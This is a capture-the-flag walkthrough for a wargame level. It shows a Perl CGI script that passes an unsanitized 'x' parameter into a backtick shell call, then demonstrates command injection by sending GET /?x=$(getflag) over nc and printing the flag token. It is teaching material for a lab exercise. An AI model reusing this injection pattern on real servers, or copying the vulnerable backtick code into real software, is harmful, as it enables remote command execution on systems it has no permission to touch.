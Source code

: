 ## Walkthrough :
- This level 4 contain a perl script : 
```
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print \`echo $y 2>&1\`;
}
x(param("x"));
```
- this program shows that a webserver is listening on localhost:4747 and expecting a x param, which will be passed to a sub routine.
```
print \`echo $y 2>&1\`;
```
- this line allows the output of **echo $y to be passed to the function print**.
- we only need to pass our exploit *$(getflag)* to echo, this will runs as a sub command .
    - connect using
    ```
    nc localhost 4747
    ```
    - send get request with command as parameter
    ```
    GET /?x=$(getflag)
    ```
    - output
    ```
    Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
    ```

## Ressources
- [command substitution](https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html)